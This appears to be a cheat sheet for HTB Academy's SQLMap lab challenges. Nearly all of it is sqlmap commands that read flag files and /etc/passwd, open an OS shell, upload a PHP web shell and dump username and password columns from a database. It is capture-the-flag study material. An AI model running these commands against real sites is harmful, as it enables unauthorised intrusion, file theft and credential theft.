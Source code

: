 ```bash
```

#### HTB Academy Examples

**Flag Reading Challenge:**
```bash
# Read flag file from web directory
sqlmap -u "http://target/?id=1" --file-read "/var/www/html/flag.txt"

# Alternative locations to try:
sqlmap -u "URL" --file-read "/flag.txt"
sqlmap -u "URL" --file-read "/home/flag.txt"  
sqlmap -u "URL" --file-read "/root/flag.txt"
```

**Interactive OS Shell Challenge:**
```bash
# Get interactive shell and explore
sqlmap -u "http://target/?id=1" --os-shell --technique=E --batch

# Commands to try in shell:
os-shell> find / -name "*flag*" -type f 2>/dev/null
os-shell> cat /path/to/discovered/flag
os-shell> ls -la /var/www/html/
os-shell> ps aux
os-shell> whoami
```

#### Quick Reference: OS Exploitation
```bash
# Privilege verification
sqlmap -u "URL" --is-dba                              # Check DBA status

# File operations
sqlmap -u "URL" --file-read "/etc/passwd"             # Read system files
sqlmap -u "URL" --file-read "/var/www/html/flag.txt"  # Read flag files
sqlmap -u "URL" --file-write "shell.php" --file-dest "/var/www/html/shell.php"  # Upload web shell

# OS shell access
sqlmap -u "URL" --os-shell --batch                    # Automated OS shell
sqlmap -u "URL" --os-shell --technique=E --batch      # Force Error-based technique

# HTB Academy solutions
sqlmap -u "URL" --file-read "/var/www/html/flag.txt"  # Flag reading challenge
sqlmap -u "URL" --os-shell --technique=E              # Interactive shell challenge
```

##### Complete Enumeration Workflow
```bash
# Step 1: Basic discovery
sqlmap -u "http://target.com/page.php?id=1" --batch --banner --current-user --current-db

# Step 2: Database enumeration  
sqlmap -u "http://target.com/page.php?id=1" --batch --dbs

# Step 3: Table enumeration
sqlmap -u "http://target.com/page.php?id=1" --batch -D database_name --tables

# Step 4: Column enumeration
sqlmap -u "http://target.com/page.php?id=1" --batch -D database_name -T table_name --columns

# Step 5: Data extraction
sqlmap -u "http://target.com/page.php?id=1" --batch -D database_name -T table_name -C username,password --dump

```
